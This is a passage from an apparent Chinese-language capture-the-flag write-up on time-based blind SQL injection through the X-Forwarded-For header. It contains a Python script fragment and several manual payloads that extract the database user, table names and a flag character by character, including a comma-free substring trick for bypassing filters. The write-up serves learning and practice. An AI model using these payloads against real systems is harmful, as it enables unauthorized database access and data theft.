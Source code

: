 ```python
            startTime = time.time()
            sql = "1.1.1.1' and (select user() like '" + result + payload + "%') and sleep(5) and '1'='1"
            sql2 = "1.1.1.1' and (select database() like '" + result + payload + "%') and sleep(5) and '1'='1"
            sql3 = "1.1.1.1' and (select case when substring((select table_name from information_schema.tables where table_schema='web4' limit 1 offset 1) from "+str(i)+" for 1)='"+payload+"' then sleep(5) else 0 end ) and '1'='1"
            sql4 = "1.1.1.1' and (select case when substring((select flag from flag) from "+str(i)+" for 1)='"+payload+"' then sleep(5) else 0 end ) and '1'='1"
            req = urllib2.Request(url)
            req.add_header('x-forwarded-for', sql4)
            f = urllib2.urlopen(req)
            if (time.time() - startTime > 5):
                result += payload
                print "tablename is " + str(i) + ": " + result
                break
                # print f.read()

if __name__ == '__main__':
    pass
```

[![user result](https://isky0t.github.io/images/shiyanbar02user.png)](https://isky0t.github.io/images/shiyanbar02user.png)

根据同样办法注入得到database为web4，但是无法用`,` 查找资料[Mysql手册](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_substring)得到无需使用逗号substr和mid的方法

### 不使用逗号

基于时间的盲注：case when xxx then sleep() else xxxx;

对于substr和mid:

```
substr(data from 1 for 1);
mid(data from 1 for 1);
```

根据这个手法手工和脚本一起使用

1. 先获取表段数 结果为2

   ```
   1.1.1.1' and (select case when (select count(*) from information_schema.tables where table_schema='web4')=2 then sleep(1) else 0 end ) and '1'='1
   ```

2. 获取第一个表段名的长度 长度为9，第二个表段长度为4（猜测是flag）

   ```
   1.1.1.1' and (select case when length((select table_name from information_schema.tables where table_schema='web4' limit 1 offset 0))=9 then sleep(1) else 0 end ) and '1'='1
   1.1.1.1' and (select case when length((select table_name from information_schema.tables where table_schema='web4' limit 1 offset 1))=4 then sleep(1) else 0 end ) and '1'='1
   ```
